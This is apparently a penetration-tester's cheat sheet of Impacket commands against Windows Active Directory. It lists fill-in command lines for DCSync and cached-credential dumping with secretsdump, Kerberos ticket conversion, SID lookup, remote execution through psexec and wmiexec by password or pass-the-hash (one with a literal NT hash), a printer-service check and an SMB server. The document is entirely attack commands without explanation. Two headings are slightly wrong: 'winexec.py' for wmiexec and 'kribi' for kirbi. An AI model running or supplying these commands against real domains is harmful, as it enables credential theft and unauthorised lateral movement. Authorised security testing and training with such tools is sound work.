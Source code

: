 ## secretsdump.py DCSync using password
```
impacket-secretsdump -just-dc <hashes> <domain>/'<username>':'<password>'@<dc_ip>
```

## secretsdump.py Dump mscash - Cached Domain Credentials
```
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

## ticketConverter.py Convert kribi to ccache
```
impacket-ticketConverter <kribi> <ccache>.ccache && export KRB5CCNAME=/tmp/<ccache>.ccache
```

## lookupsid.py lookupsid Get DomainSID
```
impacket-lookupsid -domain-sids <domain>/'<username>':'<password>'@<dc_host> 0
```

## psexec.py psexec using password
```
impacket-psexec <domain>/'<username>':'<password>'@<hostname>
```

## psexec.py psexec using hash
```
impacket-psexec -hashes :<nthash> <domain>/'<username>'@<hostname>
```

## winexec.py using password
```
impacket-wmiexec <domain>/'<username>':'<password>'@<hostname>
```

## winexec.py using hash
```
impacket-wmiexec -hashes :6fe92d4fd19b4dd83f5f1be72079d7ef <domain>/'<username>'@<hostname>
```

## impacket Rpcdump check printer service
```
impacket-rpcdump <domain>/'<user>':'<password>'@<dc-ip> | grep MS-RPRN
```

## impacket smbserver
```
impacket-smbserver share . -smb2support
```
